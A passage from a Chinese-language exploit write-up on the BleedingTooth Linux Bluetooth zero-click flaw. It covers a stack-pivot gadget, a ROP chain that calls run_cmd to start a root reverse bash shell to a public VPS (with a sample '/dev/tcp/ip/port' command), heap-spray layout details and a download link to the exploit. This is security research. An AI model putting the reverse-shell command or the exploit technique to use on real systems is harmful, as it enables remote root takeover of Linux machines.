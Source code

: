 ```c
0xffffffff8155528d        push rsi
                          add byte ptr [rbx + 0x41], bl
                          pop rsp
                          pop rbp
                          ret
```

从sk_filter_trim_cap( )到调用bpf_func函数指针的调用路径是sk->sk_filter->prog->bpf_func(cdx, prog->insnsi)，因此调用bpf_func时，rsi寄存器保存的第二个参数 prog->insnsi指向fake bpf_prog结束后的第一个字节，也就是保存0xdeadbeef的位置。

![图 7-8 bpf_prog结构](https://bbs.kanxue.com/upload/attach/202105/741085_REBVVBBW86PCUYV.png)

所以bpf_func执行完毕后的效果就是栈指针rsp被劫持到rop链开始的位置。ROP链将内核函数run_cmd( )保存到rax寄存器，命令字符串保存到rdi作为run_cmd的参数，然后调用jmp rax执行run_cmd在用户空间以root用户身份启动一个反弹bash到公网vps。注意这里的反弹shell字符串必须是全限定的，例如“/bin/bash -c /bin/bash</dev/tcp/ip/port”。

![图7-9 ROP链](https://bbs.kanxue.com/upload/attach/202105/741085_YJ4CVHJE9FW3BM5.png)

# **八、第二次堆喷射**

攻击者成功向目标机中a2mp_chan + 0x400的位置写入了伪造数据结构和ROP链，下面就要将劫持程序流去执行ROP链。第3节分析sk_filter( )将传入的amp_mgr结构的指针当作sock结构的指针处理造成了越界读，如果在amp_mgr + 0x110的位置布置指向fake sk_filter结构的指针就可以在调用sk_filter->prog->bpf_func(cdx, prog->insnsi)的位置控制rip寄存器，进而将rsp栈指针劫持到ROP链触发任意代码执行。

amp_mgr结构大小为0x70，slab实际会分配0x80字节的堆块存放amp_mgr。

![图 8-1喷射滑板地址](https://bbs.kanxue.com/upload/attach/202105/741085_6ARD8GNJKDQBYQP.jpg)

由于喷射的堆块大小为0x80，所以每次都在堆块偏移0x10的位置布置a2mp+0x400+0x300使之指向(struct sk_filter *)fake sk_filter。

![图8-2第二次堆喷效果](https://bbs.kanxue.com/upload/attach/202105/741085_Q2DUB9M7NVRAD9T.png)

第二次堆喷射后可以看到0xffff_8882_0c9a_bc80保存着amp_mgr结构，偏移0x110处保存的sk_filter指向0xffff_8882_0f34_7f00也就是a2mp_chan + 0x700处，此处保存了fake sk_filter。

最后附上成功反弹root shell到公网vps的操作。

![图 8-3](https://bbs.kanxue.com/upload/attach/202105/741085_57H7PUR24ZGS7K2.png)

# **九、总结**

这两个漏洞能够利用成功的很重要一个原因是攻击者可以未经授权修改目标机的设置，导致了无需交互即可触发代码执行，这一点在蓝牙协议规范中并未有规定。比如攻击者直接发送信道控制包（cid=1）就可以将chan->mode字段从ERTM修改为BASIC、修改A2MP MTU和L2CAP MTU而无需目标机授权，以上正是攻击的重要步骤。

官方Exploit需要三次堆喷射，经我调试改进之后只需2次堆喷即可。

# **十、参考资料**

[1]  [BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution](https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html)

[2]《深入Linux内核架构》Wolfgang Mauerer著

[3]《BLUETOOTH SPECIFICATION Version 5.0 》

[4]  [Exploit](https://pan.baidu.com/s/1b9Zez-kRy8opubcLKxNRtw)  密码: 0610